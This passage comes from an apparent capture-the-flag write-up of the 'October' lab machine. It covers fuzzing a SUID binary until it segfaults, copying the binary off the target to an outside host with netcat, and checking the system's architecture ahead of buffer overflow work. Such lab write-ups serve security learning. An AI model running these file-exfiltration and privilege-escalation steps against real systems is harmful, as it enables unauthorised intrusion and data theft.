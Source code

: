 ```bash
www-data@october:/tmp$ /usr/local/bin/ovrflw
/usr/local/bin/ovrflw
Syntax: /usr/local/bin/ovrflw <input string>

www-data@october:/tmp$ /usr/local/bin/ovrflw AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
www-data@october:/tmp$ ^[[AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Segmentation fault (core dumped)
www-data@october:/tmp$ 
```

I got a segmentation fault.
Time to copy down this binary onto my machine and get it prepped for buffer overflow analysis.

On my machine, I set up netcat to listen for data and output it to a file.

```bash
artis3n@kali-pop:~/shares/htb/october$ sudo nc -l -p 999 > ovrflw
```

Since `nc` is present on the target, I can transfer the file with the following command.

```bash
www-data@october:/tmp$ nc -w 5 10.10.14.41 999 < /usr/local/bin/ovrflw
nc -w 5 10.10.14.41 999 < /usr/local/bin/ovrflw
```

I use `md5sum` to verify that the local file I have is the same as on the server.

```bash
artis3n@kali-pop:~/shares/htb/october$ md5sum ovrflw 
0e531949d891fd56a2ead07610cc5ded  ovrflw

www-data@october:/tmp$ md5sum /usr/local/bin/ovrflw
md5sum /usr/local/bin/ovrflw
0e531949d891fd56a2ead07610cc5ded  /usr/local/bin/ovrflw
```

I also need to check the architecture of the target system.
This is a 32-bit machine running Ubuntu 14.04.

```bash
www-data@october:/tmp$ uname -a
uname -a
Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 athlon i686 GNU/Linux
www-data@october:/tmp$ cat /etc/lsb-release
cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
```
